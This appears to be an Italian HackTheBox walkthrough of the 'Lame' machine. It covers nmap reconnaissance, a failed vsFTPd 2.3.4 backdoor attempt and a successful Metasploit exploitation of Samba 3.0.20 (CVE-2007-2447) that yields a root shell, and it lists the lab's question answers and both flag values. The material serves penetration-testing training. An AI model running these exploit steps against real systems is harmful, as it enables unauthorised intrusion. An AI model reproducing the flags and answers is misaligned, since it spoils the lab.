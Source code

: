 # 💻 HTB - Lame

## 📘 Descrizione
Lame è una macchina di livello *Beginner* disponibile su HackTheBox. Durante la sessione sono state esplorate vulnerabilità note nei servizi **vsFTPd 2.3.4** e **Samba 3.0.20**, portando infine all'ottenimento dell'accesso root.

---

## 🔍 Ricognizione Iniziale

### 🔧 Comando Nmap
```bash
nmap -sC -sV 10.129.151.196

📌 Flag 1

Q: How many of the Nmap top 1000 TCP ports are open on the remote host?
A: 4

📌 Flag 2
Q: What version of VSFTPd is running on Lame?
A: 2.3.4

🧨 Tentativo di Exploit - vsFTPd 2.3.4
🔧 Comando Metasploit

msfconsole
search vsftpd

📋 Modul0 trovato

exploit/unix/ftp/vsftpd_234_backdoor

⚙️ Configurazione

use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.129.151.196
set RPORT 21
set PAYLOAD cmd/unix/interact
run

📤 Output

[*] 10.129.151.196:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.129.151.196:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.

📌 Flag 3

Q: Does the exploit work here?
A: NO
🔍 Enumerazione Samba

📌 Flag 4

Q: What version of Samba is running on Lame (senza -Debian)?
A: 3.0.20

📌 Flag 5

Q: Quale CVE del 2007 permette RCE tramite metacaratteri nella funzione SamrChangePassword e username map script abilitato?
A: CVE-2007-2447
🔗 ExploitDB #16320
✅ Exploit Riuscito - Samba 3.0.20 (CVE-2007-2447)
🔧 Comando Metasploit

msfconsole
search Samba 3.0.20
use exploit/multi/samba/usermap_script
set RHOSTS 10.129.151.196
set LHOST <tuo_ip_tun0>
run

📤 Output

[*] Command shell session 1 opened

🧾 Verifica dei privilegi

id
# uid=0(root) gid=0(root)

📌 Flag 6

Q: Exploiting CVE-2007-2447 returns a shell as which user?
A: root


## 🏁 Escalation & Flag

🔐 Root Flag

cd /root
ls
# root.txt
cat root.txt
# fcbd8eb2dccdaa0d057e621fc043a63f

👤 User Flag (Makis)

cd /home/makis
ls
# user.txt
cat user.txt
# a9aedc5d5d8c84b8af114be31bc3dc48

## ✅ Conclusioni

    🔍 Servizi vulnerabili individuati tramite Nmap.

    ❌ L’exploit vsFTPd 2.3.4 non ha avuto successo.

    ✅ L’exploit su Samba (CVE-2007-2447) ha portato all’accesso come root.

    🎯 Obiettivi completati: ottenute sia user flag che root flag.